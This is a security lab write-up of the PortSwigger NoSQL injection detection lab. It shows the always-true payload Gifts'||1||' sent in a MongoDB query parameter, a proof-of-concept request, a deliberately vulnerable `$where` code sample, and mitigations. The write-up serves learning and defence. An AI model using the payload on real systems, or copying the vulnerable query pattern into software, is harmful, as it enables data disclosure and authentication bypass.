


# Lab 01: Detecting NoSQL Injection

> **Topic**: NoSQL Injection
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
NoSQL Injection — Syntax Injection in MongoDB Query String Parameter

## Vulnerability Summary
The product filter feature passes a `category` parameter directly into a MongoDB query without sanitisation. By injecting the string `'||1||'`, the single quote breaks out of the string context and the `||1||` condition evaluates to true for every document, causing the query to return all products regardless of category. This confirms the parameter is injectable and that the backend is MongoDB (which uses JavaScript-style `||` operators in query contexts).

## Attack Methodology

### Step 1: Identify the Injectable Parameter
Browsed to the shop and clicked a category filter. The request:

```
GET /filter?category=Gifts HTTP/2
```

The `category` value is passed directly into a server-side database query. No encoding or validation is applied.

### Step 2: Inject the NoSQL Payload
Modified the `category` parameter to:

```
GET /filter?category=Gifts'||1||' HTTP/2
```

The single quote `'` terminates the string value in the MongoDB query. `||1||` appends a truthy OR condition. The trailing `'` closes the expression cleanly.

The effective MongoDB query becomes:

```javascript
// Original
db.products.find({ category: 'Gifts' })

// Injected
db.products.find({ category: 'Gifts' || 1 || '' })
// evaluates to: find all documents (1 is always truthy)
```

### Step 3: Confirm — All Products Returned
The response returned all products across all categories — including items not in the "Gifts" category — confirming the injection is successful and the backend evaluates the injected expression.





## Technical Root Cause

```javascript
// Vulnerable — user input concatenated directly into query
const category = req.query.category;
db.products.find({ $where: `this.category == '${category}'` });

// Injected value: Gifts'||1||'
// Resulting expression: this.category == 'Gifts'||1||''
// ||1|| is always truthy — all documents match
```

MongoDB's `$where` operator (and similar string-interpolated query patterns) evaluates JavaScript expressions server-side. Injecting `||1||` short-circuits the condition to always-true, equivalent to SQL's `' OR 1=1--`.

## Impact
- **Authentication Bypass**: The same `'||1||'` pattern in a login query returns all user documents, allowing login as the first user without a password
- **Data Disclosure**: All records in the queried collection are returned regardless of the intended filter
- **Query Logic Manipulation**: Arbitrary conditions can be injected to filter, sort, or extract specific records

## Proof of Concept

```
GET /filter?category=Gifts'||1||' HTTP/2
Host: <lab-host>
```

All products returned — injection confirmed.

## Key Takeaways
1. **NoSQL Injection Mirrors SQL Injection in Concept**: The mechanics differ (JavaScript operators vs SQL syntax) but the root cause is identical — user input interpolated into a query without sanitisation.
2. **`'||1||'` Is the NoSQL Equivalent of `' OR 1=1--`**: The single quote breaks the string context; `||1||` injects an always-true condition; the trailing quote closes the expression.
3. **MongoDB `$where` Is Particularly Dangerous**: It evaluates arbitrary JavaScript, making it the highest-risk query operator. Avoid it entirely — use standard MongoDB query operators (`$eq`, `$in`, etc.) which do not evaluate expressions.
4. **URL Encoding May Be Required**: In practice, `'` should be URL-encoded as `%27` when injected via query string. Burp Repeater handles this automatically.

## Mitigation

### 1. Use Parameterised Query Operators
```javascript
// Safe — value treated as data, not evaluated as expression
db.products.find({ category: req.query.category });
// MongoDB treats the value as a literal string, not JavaScript
```

### 2. Never Use `$where` with User Input
```javascript
// Dangerous — evaluates JavaScript
db.products.find({ $where: `this.category == '${input}'` });

// Safe — use $eq instead
db.products.find({ category: { $eq: input } });
```

### 3. Validate and Allowlist Input
```javascript
const VALID_CATEGORIES = ['Gifts', 'Corporate gifts', 'Food & Drink', 'Lifestyle', 'Tech gifts'];
if (!VALID_CATEGORIES.includes(req.query.category)) {
    return res.status(400).send('Invalid category');
}
```

## References
- [PortSwigger NoSQL Injection Lab — Detecting NoSQL injection](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection)
- [PortSwigger NoSQL Injection — What is NoSQL injection?](https://portswigger.net/web-security/nosql-injection)
- [CWE-943: Improper Neutralization of Special Elements in Data Query Logic](https://cwe.mitre.org/data/definitions/943.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
